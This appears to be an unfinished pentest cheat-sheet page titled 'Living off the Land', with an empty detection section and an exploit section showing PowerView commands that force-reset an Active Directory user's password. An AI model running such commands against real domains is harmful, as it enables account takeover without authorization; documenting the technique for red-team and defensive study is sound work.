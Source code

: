 # Living off the Land

## 01 - Detect

> [!IMPORTANT] Conditions
> Write the conditions...

```

```

## 02 - Exploit

```
PS C:\> Import-Module .\PowerView.ps1

$password = ConvertTo-SecureString "<password>" -AsPlainText -Force
Set-DomainUserPassword -Identity "<username>" -AccountPassword $password -Verbose
```
